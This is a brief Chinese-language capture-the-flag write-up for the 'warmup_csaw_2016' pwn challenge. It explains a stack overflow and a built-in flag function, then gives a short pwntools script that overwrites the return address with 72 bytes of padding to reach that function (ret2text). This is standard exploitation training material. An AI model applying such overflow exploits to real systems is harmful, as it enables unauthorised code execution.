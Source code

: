 ```yaml
---
title: "warmup_csaw_2016"
description: ""
date: 2023-03-30T22:51:11+08:00
lastmod: 2023-03-30T22:51:11+08:00
draft: false
images: []
type: docs
weight: 1000
toc: true
---
```


## 0x01 分析

![09d4eedd8bf2501793e6ea0160f22923](images/09d4eedd8bf2501793e6ea0160f22923.png)  

存在溢出点，而且程序里有直接获取flag的函数

![b7018d5d4dd90f510226659cb7e99754](images/b7018d5d4dd90f510226659cb7e99754.png)  

直接简单的ret2text即可拿到flag

## Exploit

```python
from pwn import*
o = process("./pwn")
payload = b'a'*72 + p64(0x40060D)
o.sendline(payload)
o.interactive()
```

![cdba4d8aa3119cfd352b0c47a064d02f](images/cdba4d8aa3119cfd352b0c47a064d02f.png)
